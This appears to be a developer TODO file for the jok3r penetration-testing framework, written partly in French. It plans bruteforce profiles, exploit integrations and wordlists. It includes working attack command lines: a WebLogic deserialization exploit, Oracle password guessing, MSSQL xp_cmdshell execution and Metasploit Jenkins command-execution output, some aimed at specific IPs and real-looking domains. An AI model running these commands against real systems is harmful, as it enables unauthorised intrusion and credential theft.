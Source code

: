 =====
TODO
=====


Docker Environment
==================
* IMPORTANT: RE INSTALL odat !! 
* re-install impacket



BUG FIXES
===============================================================================

- db > service -S -> recherche par url semble pas marcher
- db > services - ip ranges selection bug





IMPROVEMENTS / NEW FEATURES
===============================================================================
- Ctrl+C -> add possibility to switch fast mode on/off

- AttackProfiles:
    - weak-creds (weak, common, default)
        http -> changeme, htaccess bruteforce quick with common creds admin:admin, admin:password...
        mssql -> msdat passwordguesser sa:sa sa:
        oracle -> tnscmd pour sid, odat passwordguesser avec sid
        ajp -> ajp bf
        ...

    - advanced-creds-bruteforce
        (include weak-creds checks)

    - fast-scan
    - vuln-lookup-banner (require banner grabbing enabled or banner already retrieved in imported nmap scan)

    - web-scan-appserver
    - web-scan-cms
    - web-discovery
    - web-discovery-fast


- discovery-* checks:
    - appserver-wordlist
    - cms-wordlist
    - language-wordlist (per language => lots of work to produce wordlists for each language + add generic ie HTML, XML, LOG, TXT...)
    - general-minimal-wordlist
    - general-wordlist (raft directory)

- Auth types:
    - supported auth-type => only type that support various status/lvl (can be added in cmdline)
    - can accept other values (eg creds trouvés par changeme) and can be displayed in db>creds
    - method for creds retrieval in postrun

* Reporting HTML:
    * Template https://www.jqueryscript.net/menu/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3.html
    * https://www.jqueryscript.net/demo/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3/
    * http://www.finalhints.com/live-search-in-html-table-using-jquery/
    * At the end, prompt to open in browser like in eyewitness

* Do not re-run checks already done

* Nmap import: filter on nmap results to add

* Improve wordlist quality:
    * passwords
        * More default creds for mssql: https://github.com/mubix/post-exploitation-wiki/blob/master/windows/mssql.md
        * Idea for wordlist services creds: https://github.com/x90skysn3k/brutespray/tree/master/wordlist

    * wordlist per language
    * wordlist per cms
    * wordlist per server
    * web files/directories:
        * https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content
        * https://github.com/xajkep/wordlists
        * https://www.netsparker.com/blog/web-security/svn-digger-better-lists-for-forced-browsing/
        * Administration: https://github.com/fnk0c/cangibrina/tree/master/wordlists




SMARTMODULES / MATCHSTRINGS
===============================================================================
Not done yet:
* impacket smbexec/wmiexec/psexec
* whatweb
* nikto -> too many junk to extract important issues i think
* davscan
* wpseku 
* vbscan
* barmie
* snmpwn




CHECKS CORRECTIONS
===============================================================================


- samba-rce-cve2015-0240 only if os = *linux*

- Correct path ysoserial:
/jok3r/toolbox/http/exploit-weblogic-cve2017-3248# python2.7 exploits/weblogic/exploit-CVE-2017-3248-bobsecq.py -t 10.2.211.136 -p 443 --ssl --check --ysopath /root/jok3r/toolbox/multi/ysoserial/ysoserial-master.jar


- Mettre /bin/bash -c pour utilisation de <<< + single quote !! dans :
root@kali:~/jok3r/toolbox/http/exploit-weblogic-cve2018-2893# echo "[~] Will try to ping local IP = 10.250.58.108"; echo "[~] Running tcpdump in background..."; sudo sh -c "tcpdump -U -i any -w /tmp/dump.pcap icmp &" ; java -jar ysoserial-cve-2018-2893.jar JRMPClient4 "/bin/ping -c 4 10.250.58.108" > /tmp/poc4.ser; python2.7 weblogic.py 10.2.211.136 443 /tmp/poc4.ser; echo "[~] Wait a little bit..."; sleep 3; PID=$(ps -e | pgrep tcpdump); echo "[~] Kill tcpdump"; sudo kill -9 $PID; sleep 2; echo "[~] Captured ICMP traffic:"; echo; sudo tcpdump -r /tmp/dump.pcap; echo "[~] Delete capture"; sudo rm /tmp/dump.pcap; rm /tmp/poc4.ser

-ODAT: simple quote après /bin/bash !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! (sinon $var non prise en compte)
/bin/bash -c 'export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d":" -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; echo $ORACLE_HOME; python2.7 odat.py passwordguesser -s 10.2.208.173 -p 1521 -d LISTENER -vv --force-retry --accounts-file accounts/accounts_multiple.txt'


- dirsearch : -t 40 --timeout= (add --timeout to dirsearch)

- DOMI-OWNED  => fonctionne sur 5, 6 et v8

- bug dirhunt
    cmd> dirhunt https://www.correspondant-assurance.fr/bnppere                                                                                                                                           

    Traceback (most recent call last):
      File "/usr/local/bin/dirhunt", line 11, in <module>
        load_entry_point('dirhunt==0.5.1', 'console_scripts', 'dirhunt')()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 484, in load_entry_point
        return get_distribution(dist).load_entry_point(group, name)
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2707, in load_entry_point
        return ep.load()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2325, in load
        return self.resolve()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2331, in resolve
        module = __import__(self.module_name, fromlist=['__name__'], level=0)
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/management.py", line 13, in <module>
        from dirhunt.crawler import Crawler
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/crawler.py", line 16, in <module>
        from dirhunt.sessions import Sessions
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/sessions.py", line 5, in <module>
        from proxy_db.models import Proxy
    ModuleNotFoundError: No module named 'proxy_db.models'


- ./optionsbleed -n 40 -a -u https://www.correspondant-epargne.fr/tpe 
No response , Normal ?

- add exploitations avec clusterd



- Add option --webdir-wordlist for check discovery-general-wordlist 




CHECKS ADDING
===============================================================================


- Jenkins scripts:
Attention; TARGETURI / et /jenkins/

msf auxiliary(scanner/http/jenkins_command) > show options 

Module options (auxiliary/scanner/http/jenkins_command):


msf auxiliary(scanner/http/jenkins_command) > run

[+] [2018.11.19-14:37:28] 10.2.153.123:8080     nt authority\system
[*] [2018.11.19-14:37:28] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /jenkins/
TARGETURI => /jenkins/
msf auxiliary(scanner/http/jenkins_command) > run

[-] [2018.11.19-14:37:51] 10.2.153.123:8080     This system is not running Jenkins-CI at /jenkins/
[*] [2018.11.19-14:37:51] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /
TARGETURI => /

- Jenkins deserialize

- add exploit/linux/misc/jenkins_java_deserialize (attention: os linux)
- add exploit/windows/misc/ibm_websphere_java_deserialize (os win)
- add auxiliary/scanner/http/jenkins_login
- add exploit/windows/misc/ibm_websphere_java_deserialize
- add https://github.com/Coalfire-Research/java-deserialization-exploits (websphere rce, jenkins rce...)
- add exploit/multi/http/jenkins_script_console
- add msfmodules for different appservers.....
- RCE Tomcat CVE-2017-12617 /usr/share/exploitdb/exploits/jsp/webapps/42966.py
    WARNING: Add verify=False !
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
                print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
                
        else:
            print 'Not Vulnerable to CVE-2017-12617 '

* Weblogic CVE-2018-2628 https://github.com/tdy218/ysoserial-cve-2018-2628
* https://github.com/chadillac/mdns_recon
* nfsshell (sudo apt-get install libreadline-dev ; make)
* https://github.com/hegusung/RPCScan.git
* https://github.com/AlisamTechnology/PRESTA-modules-shell-exploit/blob/master/PRESTA-shell-exploit.pl
* https://github.com/breenmachine/JavaUnserializeExploits
* https://github.com/DanMcInerney/pentest-machine
* Sharepoint -> https://github.com/TestingPens/SPartan
* https://github.com/SecWiki/CMS-Hunter
* Better exploit for MS17-010 (support for more win versions, only Win7 and 2008 R2 for now)
* cve jquery
* cve ssh
* ssh cve enul
* ssh libssh vuln
* jndiat
* check https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html
* correct start module http 
* Java-RMI -> handle case windows ping -n


* For all bruteforce with 'auth_status': NO_AUTH -> create command with username known 








- jok3r-script for oracle install:

  - change url + reinstall
  wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb
wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-devel_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb

- add in dockerfile:

  export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`
  export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
  export PATH=$ORACLE_HOME/bin:$PATH
  
 - autre bug:
17:17:05 DEBUG -: Try to connect with APPLYSYSPUB/<UNKNOWN>
17:17:05 DEBUG -: Oracle connection string: APPLYSYSPUB/<UNKNOWN>@10.190.98.115:1521/LISTENER
17:17:05 DEBUG -: Error during connection with this account: `ORA-12514: TNS:listener does not currently know of service requested in connect descriptor`
17:17:05 DEBUG -: Try to connect with APPS/APPS
17:17:05 DEBUG -: Oracle connection string: APPS/APPS@10.190.98.115:1521/LISTENER
=> correction:
/bin/bash -c "export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; python2.7 odat.py passwordguesser -s 10.190.98.114 -p 1521 -d SCAN3 -vv --force-retry --accounts-file accounts/accounts_multiple.txt"






- IMPORTANT: encadrer par /bin/bash -c '...' pour toutes les cmds avec <<< any
/bin/bash -c 'python2.7 msdat.py xpcmdshell -s [IP] -p [PORT] -U [USERNAME] -P [PASSWORD] -v --shell <<< "whoami && net user"'

/bin/bash -c 'python3 <<< "print(123)"'


SERVICES TO ADD
===============================================================================
* NFS
* MongoDB
* RPC
* DNS
* LDAP










WORDLISTS ADDING
===============================================================================



- Very Minimalist dirs wordlists

root@kali:~/jok3r/toolbox/http/dirsearch# cat dirs_minimalist.txt 
account
accounts
adm
admin
_admin
Admin
ADMIN
admin2
adminarea
administrator
api
app
appli
application
applis
auth
back
backup
_backup
bak
cache
_cache
common
component
components
conf
config
configuration
control
controller
controllers
core
data
debug
dev
development
doc
docs
document
download
downloads
Downloads
en
error
file
files
Files
fr
ftp
help
html
image
images
img
inc
Inc
include
_include
includes
_includes
Includes
install
lib
manager
modules
old
page
pages
pdf
phpmyadmin
plugins
priv
_priv
_private
pub
public
_public
report
reports
require
script
scripts
secure
service
services
share
site
sites
sql
src
stat
stats
status
temp
Temp
template
templates
test
Test
test1
test2
testing
tests
tmp
tool
tools
tpl
update
updates
upload
uploads
Uploads
user
users
util
utils
webadmin
WEB-INF
www
xml
xmlrpc

